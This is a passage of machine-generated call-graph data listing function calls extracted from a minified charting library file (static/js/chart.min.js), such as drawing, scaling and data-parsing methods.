{"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStackIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStacks"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getRuler"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStackCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculateBarValuePixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "applyStack"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isHorizontal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getValueForPixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLineWidthForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_calculateBarIndexPixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAxisCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStackCount"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDataset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getAxis"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getStackIndex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parsePrimitiveData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parsePrimitiveData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseArrayData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseArrayData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForDecimal"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDatasetElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateControlPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parseObjectData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDatasetElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPointPositionForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelAndValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDatasetElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "addElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "includeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBasePixel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getPixelForValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "resolveDataElementOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateSharedOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getMaxOverflow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "arc"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "updateControlPoints"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "points"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "points"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "segments"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "first"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "last"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "interpolate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pathSegment"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "path"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "tooltipPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "translate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "clip"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inXRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inYRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inXRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "inYRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCenterPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getProps"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "size"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lastIndexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getLabels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "constructor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "super"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "isFinite"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleTickRangeOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getUserBounds"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getTickLimit"}, {"confidence": "EXTRACTED", 